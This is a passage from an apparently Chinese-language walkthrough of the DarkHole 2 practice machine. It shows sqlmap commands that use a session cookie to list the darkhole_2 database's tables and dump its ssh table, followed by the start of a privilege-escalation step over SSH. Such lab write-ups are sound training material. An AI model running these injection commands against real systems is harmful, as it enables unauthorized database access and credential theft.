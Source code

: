 

#### 爆表

```shell
sqlmap -u http://192.168.1.35/dashboard.php?id=1 --cookie PHPSESSID=8dhtd5vlaj784je44el8cgvq9i -D darkhole_2 --tables --batch
```

![](./pic-2/9-1.jpg)



#### 爆数据

```shell
sqlmap -u http://192.168.1.35/dashboard.php?id=1 --cookie PHPSESSID=8dhtd5vlaj784je44el8cgvq9i -D darkhole_2 -T ssh --dump --batch
```

![](./pic-2/9-2.jpg)





## 提权

#### 内网信息收集

以`ssh`连接，登录用户`jehad`
